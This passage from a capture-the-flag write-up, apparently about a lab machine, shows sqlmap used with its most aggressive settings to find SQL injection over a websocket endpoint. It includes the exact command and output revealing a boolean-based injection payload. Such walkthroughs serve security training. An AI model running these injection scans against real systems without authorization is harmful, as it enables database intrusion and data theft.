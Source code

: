 #### sqlmap

Doing all of this manually is impossible, so I’ll either have to write a script to do it, or find a tool. `sqlmap` is the perfect tool here, and it even works over websockets.

If `sqlmap` returns this error, it’s because the Python websockets library is missing:

```

[21:17:13] [CRITICAL] sqlmap requires third-party module 'websocket-client' in order to use WebSocket functionality 

```

Or if `sqlmap` returns this error, it’s because the wrong websockets library is installed:

```

[21:18:30] [ERROR] wrong modification time of '/usr/share/sqlmap/sqlmapapi.py'
[21:18:30] [ERROR] wrong modification time of '/usr/share/sqlmap/sqlmap.py'
[21:18:30] [ERROR] wrong modification time of '/usr/share/sqlmap/thirdparty/identywaf/identYwaf.py'
[21:18:30] [CRITICAL] wrong websocket library detected (Reference: 'https://github.com/sqlmapproject/sqlmap/issues/4572#issuecomment-77504
1086')

```

Either of these are fixed with `pip install websocket-client`.

I’ll give it the following arguments:
- `-u "ws://soc-player.soccer.htb:9091"` - The URL to connect to.
- `--data '{"id": "1234"}'` - The data to send.
- `--dbms mysql` - Tell `sqlmap` that it’s running MySQL.
- `--batch` - Take the default answer on all questions.
- `--level 5 --risk 3` - Increase to the most aggressive to find the boolean injection (without this it just finds a time-based injection, which is really slow).

It finds a time-based injection, and then finds the three column `UNION`-based boolean as well:

```

oxdf@hacky$ sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --lev
el 5 --risk 3
...[snip]...
[21:24:42] [INFO] testing connection to the target URL
...[snip]...
[21:30:25] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[21:30:32] [INFO] (custom) POST parameter 'JSON id' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable 
...[snip]...
[21:30:45] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[21:30:56] [INFO] (custom) POST parameter 'JSON id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
...[snip]...
[21:32:28] [INFO] checking if the injection point on (custom) POST parameter 'JSON id' is a false positive
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 373 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST) 
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "-1533 OR 9982=9982"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```